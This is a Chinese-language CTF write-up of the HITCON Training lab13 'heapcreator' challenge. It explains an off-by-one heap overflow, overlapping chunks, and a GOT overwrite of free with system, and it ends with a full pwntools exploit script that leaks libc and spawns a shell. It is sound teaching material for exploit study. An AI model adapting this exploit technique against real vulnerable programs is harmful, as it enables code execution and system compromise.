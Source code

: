 # chunk extend

题目：

HITCON Trainging lab13

程序分析：

create : 长度没有进行检测，如果为负数，会导致任意长度堆溢出漏洞

edit :存在 off-by-one 漏洞

利用思路

- 利用 Off-by-one 漏洞覆盖下一个 chunk 的 size 字段
- 申请伪造的chunk大小，造成 overlapping, 修改关键指针

要注意因为 chunk0 大小是 0x18，会用到 chunk1 的 pre_size 部分。

然后溢出的时候刚好可以覆盖到 nextchunk 的 size 部分。

然后堆布局基本是这样的：

chunk1 info(0x20) | chunk1 | chunk2 info | chunk2

所以我们 chunk1 溢出修改的是 chunk2 info 的 size, 然后这个 chunk 就会覆盖到 chunk2 的信息，

从而我们可以修改 chunk2 信息，可以用来 leak info, 修改 got 表。

内存变化

这个覆盖了 size 后的 layout

```python
gef➤  x/16gx 0xb3c010-0x10
0xb3c000:	0x0000000000000000	0x0000000000000021
0xb3c010:	0x0000000000000018	0x0000000000b3c030
0xb3c020:	0x0000000000000000	0x0000000000000021
0xb3c030:	0x0068732f6e69622f	0x6161616161616161
0xb3c040:	0x6161616161616161	0x0000000000000041
0xb3c050:	0x0000000000000010	0x0000000000b3c070
0xb3c060:	0x0000000000000000	0x0000000000000021
0xb3c070:	0x0000000a62626262	0x0000000000000000
```

然后我们 delete 1, 根据程序分析，会 free 掉 chunk1 info 和 chunk1 这两个堆块。

然后我们再 malloc 一个 0x30 的 chunk。

这时候会 malloc 一个 0x20 的 info chunk，然后malloc 一个 0x40 的实际 chunk. 

自己画下图就明白内存的关系, 0x40 的 chunkA 包含了 0x20 的 info chunkB, 这样我们写 chunkA 时，就可以构造 chunkB 的数据，也就是 size 和 Ptr 的数据。这里我们将 ptr 改成了 free 函数的 got 地址。size 是 0x30 不变的。这样show的时候就可以泄露地址了，再改写 free 的 got 表为 system， 最后成功 getshell。



这道题主要是要搞清楚 chunk 和 info chunk，在堆中实际的 layout。最终就改写了指向 chunk 的 Ptr，利用 show 和 delete 函数，达到 leak info 和 getshell 的目的。



最终 exp

```python
from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')

context_level = 'debug'

def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
create(0x18,'aaaa')
create(0x10,'bbbb')

edit(0,'/bin/sh\x00'+'a'*0x10+"\x41")
delete(1)
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
show(1)

r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
log.success('free base addr: ' + hex(free_addr))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
gdb.attach(r)
system_addr = libc_base + libc.symbols['system']
#raw_input('1')                                                                    

edit(1, p64(system_addr))

# trigger system("/bin/sh")
delete(0)
r.interactive()

```

